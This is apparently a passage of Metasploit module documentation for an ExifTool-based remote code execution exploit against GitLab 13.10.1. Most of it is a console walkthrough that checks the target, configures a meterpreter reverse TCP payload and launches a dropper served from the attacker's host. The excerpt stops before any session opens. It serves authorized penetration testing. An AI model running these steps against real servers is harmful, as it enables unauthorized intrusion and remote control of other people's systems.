 Specifies GitLab's base URI. Although an unpopular configuration, GitLab does support use
of a [relative URL](https://docs.gitlab.com/omnibus/settings/configuration.html#configuring-a-relative-url-for-gitlab).

## Scenarios

### GitLab 13.10.1 on Ubuntu 20.04.2 x64. Get Meterpreter session.

```
msf6 > use exploit/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf6 exploit(multi/http/gitlab_exif_rce) > check

[*] Uploading c6hn3KFIMqv.jpg to /D3iMLq
[+] 10.0.0.7:80 - The target is vulnerable. The error response indicates ExifTool was executed.
msf6 exploit(multi/http/gitlab_exif_rce) > options

Module options (exploit/multi/http/gitlab_exif_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.0.7         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444
[*] Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/agqzWrd49OBxPkC
[*] Local IP: http://10.0.0.9:8080/agqzWrd49OBxPkC
```